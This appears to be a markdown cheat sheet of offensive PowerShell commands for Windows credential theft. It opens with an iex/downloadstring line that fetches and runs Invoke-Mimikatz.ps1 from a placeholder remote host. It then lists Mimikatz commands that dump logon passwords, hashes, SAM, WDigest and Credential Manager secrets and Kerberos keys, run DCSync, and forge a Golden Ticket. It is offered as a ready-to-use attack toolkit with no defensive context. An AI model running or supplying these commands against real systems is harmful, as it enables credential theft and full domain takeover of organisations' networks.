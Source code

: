 # Get em' logonpasswords!
Invoke: `iex(New-Object net.webclient).downloadstring('http://ip/Invoke-Mimikatz.ps1')`

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'` - Get passwords of scheduled tasks.
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'` - Dump logged-on Accounts hashes.
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'` - Local Accounts Credentials
- `Invoke-Mimikatz -Command '"privilege::debug" sekurlsa::ekeys"'` - List Kerberos encryption keys
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::credman"'` - List Credentials Manager
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::ssp"'` - Lists SSP credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::wdigest"'` - List WDigest credentials

### DCSync

- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:NETBIOS\USER"'` - Maybe domain controller need to be specified too with `/dc:<DC FQDN>`.

### Golden Ticket

- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:HASH id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

### All in one

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "lsadump::sam" "sekurlsa::credman" "sekurlsa::ssp" "sekurlsa::wdigest" "sekurlsa::logonpasswords"'`
